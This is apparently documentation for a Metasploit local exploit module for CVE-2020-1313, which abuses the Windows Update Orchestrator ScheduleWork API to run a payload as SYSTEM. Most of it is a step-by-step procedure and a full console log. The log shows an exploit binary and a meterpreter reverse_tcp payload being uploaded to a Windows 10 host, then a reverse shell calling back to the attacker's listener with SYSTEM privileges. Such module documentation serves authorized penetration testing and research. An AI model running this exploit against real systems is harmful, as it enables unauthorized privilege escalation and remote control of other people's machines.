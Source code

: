 ## Vulnerable Application

Windows 10 and Server x64 build versions above 17763  to 19041.

### Introduction

This module abuses CVE-2020-1313, a unchecked API call that allows a
regular user to schedule a job that will run as system.  The API call,
`ScheduleWork`, will create a task in the System Update Orchestrator
automatically scheduled to run at a time when the system is expected
to be idle.  The user cannot request or affect the scheduled time of
execution.  The scheduled job data is stored in
`HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\WindowsUpdate\\Orchestrator\\UScheduler\\x`
Where `x` is a numeric key assigned to the job.

## Verification Steps

  1. Start msfconsole
  2.  use exploit/multi/handler
  3. set payload <payload>
  4. set [r|l]host
  5. run (leave running)
  6. Start msfconsole
  7. use windows/local/cve_2020_1313_system_orchestrator
  8. set session <session>
  9. `set payload <payload_matching_above>
  10. set verbose true
  11. Verify The job is scheduled
  12. Leave everything running
  13. Go to bed
  14. Have a healthy Breakfast, maybe some coffee if you want
  15. verify you got a callback as SYSTEM

## Options

  **EXECUTE_DELAY**
  The number of seconds to sleep after uploading the exploit and
  launching it.

  **EXPLOIT_NAME**
  The name of the exploit EXE as it will appear on target
  
  **EXPLOIT_TIMEOUT**
  The maximum time to wait for a response from the exploit binary.

  **PAYLOAD_NAME**
  The name of the payload EXE as it will appear on target

  **WRITABLE_DIR**
  Directory to use for file upload and linking; this should not already
  exist.  This directory will require manual cleanup.

## Scenarios

### Tested on Windows10 x64 Release 1903

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 12 opened (192.168.135.197:4567 -> 192.168.132.134:49678) at 2020-09-21 19:05:44 -0500
sessions -i -1
[*] Starting interaction with 12...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 12...
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > show options

Module options (exploit/windows/local/cve_2020_1313_system_orchestrator):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   SESSION          11               yes       The session to run this module on.
   WRITABLE_DIR                      no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4568             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > set session 12
session => 12
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > run

[*] Build Number = 18362
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 12
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Uploading Payload to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[*] Running Exploit
[*] Exploit Output:
Obtaining reference to IUniversalOrchestrator
Scheduling work with id 47790
Succeeded. You may verify HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Orchestrator\UScheduler to see the task has indeed been onboarded. The command itself will be executed overnight if there is no user interaction on the box or after 3 days SLA has passed.
[*] Cleaning up C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[+] Payload Scheduled for execution at 2020-09-22 08:53:47 -0500
msf6 exploit(windows/local/cve_2020_1313_system_orchestrator) > 

[SECONDARY WINDOW FOR CALLBACK]
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.135.197
lhost => 192.168.135.197
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run -j
msf6 exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444

msf6 exploit(multi/handler) > set lport 4568
lport => 4568
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.135.197:4568 
msf6 exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444
  1   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4568

msf6 exploit(multi/handler) > 
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4568 -> 192.168.132.134:49681) at 2020-09-21 20:09:45 -0500
msf6 exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-CL5L2IH  192.168.135.197:4568 -> 192.168.132.134:49681 (192.168.132.134)

msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
